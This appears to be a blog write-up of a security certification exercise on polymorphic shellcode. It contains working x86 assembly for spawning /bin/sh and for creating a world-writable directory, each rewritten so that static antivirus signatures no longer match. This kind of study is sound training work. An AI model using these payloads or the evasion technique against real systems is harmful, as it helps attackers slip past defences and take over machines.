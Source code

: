 ## SLAE Exam Assignment 6 - Creating polymorphic shellcode

## Prologue
The second last assignment of the SLAE certification exam was quite an intriguing one. We were told to take three shellcodes of our choosing from [shell-storm](https://www.shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/shellcodes) and create Polymorphic versions of those to evade _static signature-based_ AV/EDRs. Needless to say, it was a quite fun and brain-racking challenge.

What's more? We were told that extra brownie-points would be given if the polymorphic shellcodes were smaller than the original.

So without any further ado, let's get down with it!

## What is polymorphic shellcode?
It is impossible to explain polymorphic shellcode if we don't understand what is polymorphism.

Polymorphism comes from the Greek words: _poly_ meaning "many" and _morph_ meaning "forms". In other words it roughly translates to "many forms" of the same thing.

Now let's understand what we mean by polymorphic shellcode with the help of a tiny example.

Each shellcode is crafted for a specific purpose right? Say there's a Reverse TCP shellcode which connects back to an attacker server for execution of arbritary commands. This shellcode was used many times in the past by an attacker along with an exploit to get access to a remote machine and exfiltrate data. Now the AV/EDR vendors have caught up to it and they have written signatures to detect this payload. Say a wannabe pen-tester get their hands on this payload and they too want to use this payload so they quickly decide to test this payload in a live-environment of their own before deploying it but alas! As soon as they fire up the payload, it gets detected by a commercial AV. This can't be any good!

Enter polymorphic shellcode!

So this script-kiddie gives this assembly code that he found to an 1337 hacker and he in return gives him back a modified payload which surprisingly runs as expected without any detections much to this script-kiddie's surprise. So what did this 1337 hacker do?

He basically modified the source that he received to beat _static signature analysis_. In other words, he created a polymorphic shellcode from the original source that has the same functionality but a different signature this time since he addded some new instructions, deleted some old instructions, added some NOP instructions yada yada yada.

Now that we know what is polymorphic shellcode and how it is useful for us, let's get our hands dirty with creating some!

## First polymorphic shellcode - execve(/bin/sh)
[Here](http://shell-storm.org/shellcode/files/shellcode-827.php) is the link to the original shellcode.

Original shellcode:

```nasm
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
push   eax
push   ebx
mov    ecx, esp
mov    al, 0x0b
int    0x80
```

Polymorphic shellcode:

```nasm
xor eax, eax           ; Clearing out EAX register
xor ecx, ecx           ; Clearing out ECX regsiter
push eax               ; push for NULL termination
push dword 0x68732f2f  ; push //sh
push dword 0x6e69622f  ; push /bin
mov ebx, esp           ; store address of TOS - /bin//sh
mov al, 0x0b           ; store Syscall number for execve() = 11 OR 0x0b in AL
int 0x80               ; Execute the system call
```

Length of original shellcode: `23 bytes`

Length of polymorphic shellcode: `21 bytes`

Size Reduction: `9%`

For the first assignment I took a very simple shellcode which executes /bin/sh so I will not go into too much detail on how it works. I just bastardized the execve call and made the following modifications:

1. Removed the null termination push after /bin//sh
1. Removed the ECX pointing to argv[]

Let's see a demo of the shellcode in action now:

<script id="asciicast-WGxT2keT6AO81KpWMraSVUt4n" src="https://asciinema.org/a/WGxT2keT6AO81KpWMraSVUt4n.js" async></script>

## Second polymorphic shellcode - create dir + chmod 777 + exit
[Here](https://www.exploit-db.com/exploits/37358) is the link to the original shellcode.

Original shellcode:

```nasm
xor    eax, eax
push   eax
push   0x4b434148  #You can change it !
mov    al, 0x27
mov    ebx, esp
inc    cx
int    0x80
mov    al, 0xf
mov    cx, 0x1ff
int    0x80
xor    eax, eax
inc    eax
int    0x80
```

Polymorphic shellcode:

```nasm
xor eax, eax                             ; Clearing out EAX register
push eax                                 ; PUSH for NULL termination
push dword 0x4b434148                    ; PUSH dir name HACK
mov al, 0x27                             ; Load 0x27 syscall val for mkdir in AL 
mov ebx, esp                             ; Store address of TOS in EBX
int 0x80                                 ; Executing mkdir syscall
mov al, 0xf                              ; Load 0x0f syscall val for chmod in AL
mov cx, 0x1ff                            ; Load permission to CX
int 0x80                                 ; Executing chmod syscall
inc eax                                  ; Incrementing val of EAX to 1 - exit
int 0x80                                 ; Executing exit syscall
```

Length of original shellcode: `29 bytes`

Length of polymorphic shellcode: `25 bytes`

Size Reduction: `14%`



